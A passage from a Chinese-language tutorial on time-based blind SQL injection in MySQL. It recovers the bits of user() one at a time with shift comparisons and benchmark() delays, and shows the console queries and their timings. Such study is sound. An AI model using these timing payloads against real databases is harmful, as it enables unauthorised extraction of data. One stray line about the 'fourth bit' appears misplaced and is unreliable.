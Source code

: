 01110 **0** ??

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220207-b97e0a64-d927-1.png)


第七位：
再然后是第七位的值。同上，有两种可能：

011100 **0**（十进制：56）//TRUE
或者
011100 **1**（十进制：57）// FALSE
```
mysql> select if ((ascii((substr(user(),1,1))) >> 1 )=56,benchmark(10000000,sha1('test')), 'false');
 
+---------------------------------------------------------------------------------------+
 
| if ((ascii((substr(user(),1,1))) >> 1 )=56,benchmark(10000000,sha1('test')), 'false') |
 
+---------------------------------------------------------------------------------------+
 
| false                                                                                 |
 
+---------------------------------------------------------------------------------------+
 
1 row in set (0.00 sec)
```
SQL查询没有时延，所以条件为FALSE，即第七位为1

第四位必须为1

011100 **1**？

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220216-bea3a9d6-d927-1.png)


第八位：

最后，我们需要找到第八位的值。同上，有两种可能：

0111001 **0**（十进制：114）//TRUE
或者
0111001 **1**（十进制：115）// FALSE
```
mysql> select if ((ascii((substr(user(),1,1))) >> 0 )=114,benchmark(10000000,sha1('test')), 'false');
 
+----------------------------------------------------------------------------------------+
 
| if ((ascii((substr(user(),1,1))) >> 0 )=114,benchmark(10000000,sha1('test')), 'false') |
 
+----------------------------------------------------------------------------------------+
 
| 0                                                                                      |
 
+----------------------------------------------------------------------------------------+
 
1 row in set (2.33 sec)
```
SQL查询存在时延，所以条件为TRUE，即第八位为0

